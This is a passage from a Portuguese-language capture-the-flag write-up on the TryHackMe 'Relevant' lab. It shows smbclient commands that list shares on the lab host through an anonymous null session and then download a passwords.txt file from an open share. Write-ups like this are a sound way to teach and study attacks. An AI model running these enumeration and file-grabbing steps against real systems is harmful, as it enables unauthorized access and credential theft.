 <img src="/img/thm/thm-relevant-2.png">

Fomos levados para uma página em branco, aparentemente até o momento a porta 49663 não nos deu muita coisa.

### SMB

Vamos tentar null session no SMB.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ smbclient -L \\10.10.226.231
Enter WORKGROUP\hastur's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```
Temos acesso com null session!!!

E um dos diretórios tem exatamente o mesmo nome do diretório encontrado na porta 49663, vamos acessá-lo.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ smbclient \\\\10.10.226.231\\nt4wrksv        
Enter WORKGROUP\hastur's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4945313 blocks available
smb: \> get passwords.txt 
getting file \passwords.txt of size 98 as passwords.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> 
```
Dentro do diretório existe o arquivo `passwords.txt`, vamos baixá-lo para enumerar seu conteúdo.

